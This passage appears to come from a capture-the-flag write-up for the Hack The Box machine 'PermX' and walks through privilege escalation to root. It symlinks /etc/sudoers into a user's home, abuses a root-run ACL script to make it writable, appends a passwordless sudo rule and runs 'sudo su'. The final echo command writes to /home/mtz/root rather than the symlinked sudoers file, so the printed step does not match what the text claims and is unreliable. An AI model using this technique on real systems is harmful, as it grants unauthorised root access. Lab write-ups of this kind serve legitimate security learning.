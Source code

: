 We will first create a symbolic link to the file we want to change the permissions of. In this case, we can target the sudoers file.

```bash
ln -s /etc/sudoers /home/mtz/sudoers
```

Now let's run the script as root and change the permissions on `/home/mtz/sudoers`

```bash
sudo /opt/acl.sh mtz rw /home/mtz/sudoers
```

We are now able to edit the sudoers file. From here we can easily escalate to root, an easy way to do it is:

```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
sudo su
```

And then retrieve the root flag:

{{<figure src="/img/htb/permx/root_flag.png" position=center caption="Root flag obtained !">}}

